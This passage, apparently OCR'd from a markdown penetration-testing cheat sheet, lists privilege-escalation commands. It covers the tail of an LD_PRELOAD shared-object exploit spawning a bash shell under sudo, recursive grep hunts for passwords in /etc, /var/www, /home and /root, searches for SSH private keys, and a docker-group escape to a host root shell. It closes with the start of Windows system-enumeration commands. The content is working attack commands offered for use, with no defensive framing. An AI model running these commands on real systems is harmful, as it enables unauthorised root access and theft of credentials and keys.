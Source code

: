 ```bash
    system("/bin/bash");
}' > /tmp/preload.c
gcc -fPIC -shared -o /tmp/preload.so /tmp/preload.c
sudo LD_PRELOAD=/tmp/preload.so program
```

#### Password Hunting
```bash
# Search for passwords in files
grep -r "password" /etc/ 2>/dev/null
grep -r "password" /var/www/ 2>/dev/null
grep -r "password" /home/ 2>/dev/null
grep -r "password" /root/ 2>/dev/null

# Search for specific config files
find / -name "*.conf" -o -name "*.config" -o -name "*.cnf" 2>/dev/null
```

#### SSH Keys
```bash
# Search for SSH keys
find / -name "id_rsa*" 2>/dev/null
find / -name "authorized_keys" 2>/dev/null
find / -name "known_hosts" 2>/dev/null
```

#### Docker Group
```bash
# Check if user is in docker group
groups | grep docker

# If yes, get root shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## Windows Privilege Escalation

### Initial Enumeration

#### System Information
```powershell
# Operating System
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname

# Environment Variables
set

# Installed Patches
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Disk Information
wmic logicaldisk get caption,description,providername
```
